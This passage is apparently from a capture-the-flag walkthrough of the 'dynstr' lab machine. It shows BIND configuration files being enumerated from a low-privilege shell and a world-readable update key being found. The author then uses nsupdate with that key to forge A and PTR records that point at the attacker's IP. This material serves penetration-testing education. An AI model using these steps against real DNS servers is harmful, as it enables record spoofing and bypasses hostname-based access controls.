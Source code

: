 
To better understand how the Bind server is configured. There’s a bunch of
files in `/etc/bind`:

    
    
    www-data@dynstr:/etc/bind$ ls
    bind.keys  db.127  db.empty  ddns.key   named.bindmgr  named.conf.default-zones  named.conf.options  zones.rfc1918
    db.0       db.255  db.local  infra.key  named.conf     named.conf.local          rndc.key
    

`named.conf.local` contains the interesting bits:

    
    
    // Add infrastructure DNS updates.
    include "/etc/bind/infra.key";
    zone "dyna.htb" IN { type master; file "dyna.htb.zone"; update-policy { grant infra-key zonesub ANY; }; };
    zone "10.in-addr.arpa" IN { type master; file "10.in-addr.arpa.zone"; update-policy { grant infra-key zonesub ANY; }; };
    zone "168.192.in-addr.arpa" IN { type master; file "168.192.in-addr.arpa.zone"; update-policy { grant infra-key zonesub ANY; }; };
    // Enable DynDNS updates to customer zones.
    include "/etc/bind/ddns.key";
    zone "dnsalias.htb" IN { type master; file "dnsalias.htb.zone"; update-policy { grant ddns-key zonesub ANY; }; };
    zone "dynamicdns.htb" IN { type master; file "dynamicdns.htb.zone"; update-policy { grant ddns-key zonesub ANY; }; };
    zone "no-ip.htb" IN { type master; file "no-ip.htb.zone"; update-policy { grant ddns-key zonesub ANY; }; };
    

This second line defines how the `dyna.htb` zone (or domain) is updated. The
`update-policy` says that it will be granted with access to the `infra-key`
file, which included in the first line. I also have permission to read it as
www-data:

    
    
    www-data@dynstr:/etc/bind$ ls -l infra.key
    -rw-r--r-- 1 root bind 101 Mar 15 20:44 infra.key
    

### Update DNS

I have all the pieces I need to update the DNS at this point. I could look at
the web code as an example of how to make the `nsupdate` call (I’ll dig into
that in Beyond Root), or look at the [man
page](https://linux.die.net/man/8/nsupdate). I’ll set it so that both the A
record for 0xdf.infra.dyna.htb points at my IP, and that the PTR record for
8.14.10.10.in-addr.arpa points at 0xdf.infra.dyna.htb (to satisfy the reverse
lookup of the IP):

    
    
    www-data@dynstr:/etc/bind$ nsupdate -k infra.key 
    > server 127.0.0.1
    > zone dyna.htb
    > update add 0xdf.infra.dyna.htb 30 IN A 10.10.14.8
    > send
    > zone 10.in-addr.arpa
    > update add 8.14.10.10.in-addr.arpa 30 IN PTR 0xdf.infra.dyna.htb
    > send
    